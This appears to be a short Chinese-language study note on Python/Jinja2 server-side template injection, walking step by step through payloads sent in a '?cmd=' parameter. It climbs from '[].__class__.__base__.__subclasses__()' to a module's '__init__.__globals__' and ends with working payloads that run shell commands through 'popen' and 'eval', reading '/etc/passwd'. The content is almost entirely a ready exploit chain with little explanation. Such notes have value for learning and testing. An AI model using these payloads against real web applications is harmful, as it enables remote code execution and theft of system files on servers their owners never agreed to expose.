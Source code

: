 查找可用模块
![](photos/Pasted%20image%2020240106012147.png)

! 注意这边是显示的是140 ，是**从1开始**的，列表是**从0开始**，所以要减一
```
?cmd={{[].__class__.__base__.__subclasses__()[139]}}
```
![](photos/Pasted%20image%2020240106012338.png)

查看是否被重载
```
?cmd={{[].__class__.__base__.__subclasses__()[139].__init__}}
```
![](photos/Pasted%20image%2020240106012548.png)

查看指令
```
?cmd={{[].__class__.__base__.__subclasses__()[139].__init__.__globals__}}
```
![](photos/Pasted%20image%2020240106012828.png)

**执行指令**
```
?cmd={{[].__class__.__base__.__subclasses__()[139].__init__.__globals__['popen']('cat /etc/passwd').read()}}
?cmd={{[].__class__.__base__.__subclasses__()[139].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /etc/passwd').read()")}}
```
